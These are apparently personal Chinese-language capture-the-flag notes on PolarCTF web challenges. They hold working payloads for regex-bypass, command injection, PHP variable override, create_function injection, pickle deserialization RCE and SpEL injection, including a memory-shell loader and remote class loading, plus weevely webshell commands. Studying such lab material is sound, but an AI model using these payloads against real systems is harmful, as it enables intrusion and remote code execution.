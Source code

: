 # web
### swp
递归绕过正则限制
```python
import requests
data = {"xdmtql": "sys nb" + "aaaaa" * 1000000}
res = requests.post('http://d9d00980-d2fc-412e-b6cc-b6db2562eafb.www.polarctf.com:8090/index.php', data=data, allow_redirects=False)
print(res.content)

```

### 简单rce
$IFS空格绕过+sort读取文件

### 上传


### 非常好绕的命令执行

hex2bin转换
`http://1ae67e55-509c-49e4-9bf7-a04be9788ca5.www.polarctf.com:8090/?args1=hex2bin&args2='73797374656d'&args3='ls'`

### php是世界上最好的语言
变量覆盖
```php
<?php
//flag in $flag
highlight_file(__FILE__);
include("flag.php");
$c=$_POST['sys'];
$key1 = 0;
$key2 = 0;
if(isset($_GET['flag1']) || isset($_GET['flag2']) || isset($_POST['flag1']) || isset($_POST['flag2'])) {
    die("nonononono");
}
@parse_str($_SERVER['QUERY_STRING']);
extract($_POST);
if($flag1 == '8gen1' && $flag2 == '8gen1') {
    if(isset($_POST['504_SYS.COM'])){
    if(!preg_match("/\\\\|\/|\~|\`|\!|\@|\#|\%|\^|\*|\-|\+|\=|\{|\}|\"|\'|\,|\.|\?/", $c)){
         eval("$c");  

    }
}
}
?>
```

```http
http://www.xxx.com?_POST[flag1]=8gen1&_POST[flag2]=8gen1
post:sys=echo($flag);&504[SYS.COM=a
```

### \$\$
`$GLOBALS`全局变量
![image.png](https://gitee.com/leiye87/typora_picture/raw/master/20231211154038.png)


### 某函数的复仇
create_function注入

![image.png](https://gitee.com/leiye87/typora_picture/raw/master/20231211163836.png)

```php
$shaw('',$root);


root=}system('more /flag');/*
shaw=create_function
```


### veryphp
call_user_func
调用类的方法
`myans=qwq::oao`

### unpickle
#pickle 

```python
import requests
import pickle
import os
import base64


class exp(object):
    def __reduce__(self):
        return (eval,("__import__('os').popen('cat /flag').read()",))


e = exp()
s = pickle.dumps(e)#将获取的对象序列化
user = base64.b64encode(s).decode()##将序列化的对象使用base64加密
print(user)#输出加密后的序列化对象
```

### upload tutu
使用`fastcoll`生成俩个hash值相同的文件,在`D:\CTF_Tools\fastcoll_v1.0.0.5.exe\fastcoll_v1.0.0.5.exe`

`fastcoll_v1.0.0.5.exe -p test.php -o test1.php test2.php`


### ezjava
Spel表达式注入
```java
//简单rce
new java.lang.ProcessBuilder("calc").start()
T(java.lang.Runtime).getRuntime().exec('calc')
new javax.script.ScriptEngineManager().getEngineByName("nashorn").eval("s=[1];s[0]='calc';java.lang.Runtime.getRuntime().exec(s);")

//远程类加载
new java.net.URLClassLoader(new java.net.URL[]{new java.net.URL('http://127.0.0.1:8888/')}).loadClass("evil").getConstructors()[0].newInstance()

new java.net.URLClassLoader(new java.net.URL[]{new java.net.URL('http://127.0.0.1:8888/')}).loadClass("evil").newInstance()



//回显
new java.util.Scanner(new java.lang.ProcessBuilder("ls", "app").start().getInputStream(), "GBK").useDelimiter("asdasdasdasd").next()

new java.io.BufferedReader(new java.io.InputStreamReader(new ProcessBuilder("cmd", "/c", "whoami").start().getInputStream(), "gbk")).readLine()

//需要注册一个response上下文
#response.addHeader('x-cmd',new java.io.BufferedReader(new java.io.InputStreamReader(new ProcessBuilder("cmd", "/c", "whoami").start().getInputStream(), "gbk")).readLine())


//内存🐎
T(org.springframework.cglib.core.ReflectUtils).defineClass('InceptorMemShell',T(org.springframework.util.Base64Utils).decodeFromString(''),T(java.lang.Thread).currentThread().getContextClassLoader()).newInstance()

//关键字绕过
T(String).getClass().forName("java.l"+"ang.Ru"+"ntime").getMethod("ex"+"ec",T(String[])).invoke(T(String).getClass().forName("java.l"+"ang.Ru"+"ntime").getMethod("getRu"+"ntime").invoke(T(String).getClass().forName("java.l"+"ang.Ru"+"ntime")),newString[]{"cmd","/C","calc"})

''.class.getSuperclass().class.forName('java.lang.Runtime').getMethod("ex"+"ec",T(String[])).invoke(''.class.getSuperclass().class.forName('java.lang.Runtime').getMethod("getRu"+"ntime").invoke(null),'calc')
```


### 这又是一个上传
可以直接上传一个php,但是权限很低,什么也做不了

使用`weevely`,在`D:\CTF_Tools\weevely3\`
```bash
#生成shell
python3 weevely.py generate cmd shell.php
#连接shell
python3 weevely.py http://xxx.php cmd
```

### 你的马呢？
apache解析漏洞
> AddHandler导致的Apache解析漏洞
如果服务器给.php后缀添加了处理器：
AddHandler application/x-httpd-php.php
那么，在有多个后缀的情况下，只要包含.php后缀的文件就会被识别出php文件进行解析，不需要是最后一个后缀。如shell.php.jpg中包含.php，所以解析为php文件
利用：
1、1.php.jpg
2、1.php.txt
影响范围：2.4.0-2.4.29版本

---

### CB链
java反序列化CommonBean链


# reverse

# pwn

# crypto

# Misc


---
# *相关wp*




2023-12-09   23:22